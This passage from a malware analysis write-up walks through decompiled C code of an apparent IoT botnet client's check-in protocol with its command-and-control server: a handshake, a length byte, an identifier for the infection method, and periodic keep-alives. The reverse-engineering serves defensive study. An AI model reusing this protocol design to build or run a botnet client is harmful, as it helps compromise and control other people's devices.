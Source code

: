 The program sends 4 bytes from the memory location `DAT_0001d8e8` to the C2.

This likely serves as an initial handshake or identifier to inform the C2 server that this device is connecting.

2. A Single Byte of Data

```c
send(fd_serv,local_2a,1,0x4000);
```

The variable `local_2a` is a 2-byte array (`ushort local_2a[3];`), but only 1 byte is sent.

This byte is likely used to indicate the length of the following data or a flag for authentication.

3. Additional Data

```c
if ((byte)local_2a[0] != 0) {
	send(fd_serv, auStack_98, (uint)(byte)local_2a[0], 0x4000);
}
```

If `local_2a[0]` is not zero, the client sends `auStack_98`, which is a 32-byte buffer.

This buffer is initialized earlier:

```c
util_zero(auStack_98, 0x20);

if ((param_1 == 2) && (iVar3 = util_strlen(param_2[1]), iVar3 < 0x20)) {
	util_strcpy(auStack_98, param_2[1]);
}
```

This suggests that if a command-line argument is provided (`param_2[1]`), it is copied into `auStack_98`.

This is most likely an identifier for how the device was exploited (e.g., via SSH brute force, Telnet brute force, etc.).

For example, if a device had been exploited via SSH brute force, the binary may be run with 'ssh' as the argument.

This would help the operator determine which methods are working well for exploiting new devices.

4. Periodic Keep-Alive Message

```c
iVar3 = local_59c % 6;
local_59c = local_59c + 1;
local_2a[0] = 0;
if (iVar3 == 0) {
	send(fd_serv, local_2a, 2, 0x4000);
}
```

Every 6th iteration, the client sends 2 bytes (`local_2a[0] = 0`).

This is likely a keep-alive message to let the server know the client is still online (like the PING and PONG from the previous binary's).
